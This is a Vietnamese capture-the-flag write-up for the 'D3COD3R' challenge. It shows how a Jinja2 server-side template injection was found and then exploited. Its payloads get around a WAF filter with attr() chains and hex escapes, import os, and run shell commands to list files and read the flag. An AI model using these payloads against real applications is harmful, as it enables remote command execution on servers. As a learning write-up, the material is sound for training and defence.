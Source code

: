 # D3COD3R

## SSTI discovery

- Chúng ta phát hiện được rằng chương trình có lỗ hỏng [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) khi truyển chuỗi Base64 `e3snYScudXBwZXJ9fQ==` ( {{'a'.upper}} ) vào Decoder field của chương trình.

![img](images/test_upper.png)

## SSTI exploit and bypass WAF

- Đầu tiên, Chúng ta sử dụng lệnh sau để hiển thị tất cả các class.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()}}
```

- Đến đây, chúng ta có thể tìm được ví trí của class mà chúng ta đang cần. Class đó là `os._wrap_close` nằm ở vị trí 132.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)}}
```

- Tiếp theo, ta sử dụng lệnh dưới đây để liệt kê tất cả các file có trong đường dẫn hiện tại.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('ls${IFS}\x2dla')|attr('read')()}}
```

- Ta phát hiện có file flag. Cuối cùng, ta sử dụng lệnh sau để đọc được file flag trên.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('cat${IFS}fla\x67')|attr('read')()}}
```

> flag : `Wanna.One{we_wish_u_a_merry_ch1rsmas:3}`

